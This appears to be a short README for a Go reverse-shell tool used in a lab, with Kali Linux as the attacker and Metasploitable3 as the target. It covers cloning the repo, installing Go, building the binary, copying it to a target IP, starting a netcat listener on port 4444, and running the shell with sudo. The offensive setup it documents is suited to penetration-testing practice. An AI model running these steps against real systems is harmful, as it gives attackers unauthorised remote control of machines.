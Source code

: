 # revshell
Reverse Shell

## Clone this Repo (Kali Linux)

git clone https://github.com/galaxy3-net/revshell.git ~/revshell

## Installing Go Compiler

curl -O https://dl.google.com/go/go1.10.3.linux-amd64.tar.gz

tar xf go1.10.3.linux-amd64.tar.gz

sudo chown -R root:root go

sudo mv go /usr/local/

vi /etc/profile

source ~/.profile

mkdir -p ~/work/revshell

cd ~/work/revshell

vi revshell.go

export GOOS=linux
export GOARCH=amd64

go build revshell.go

scp revshell vagrant@10.55.56.52:revshell

## Startup Target (Kali Linux)

nc -n -t -lp 4444

## Running Revshell (Metasploitable3 Ubuntu)

sudo ./revshell

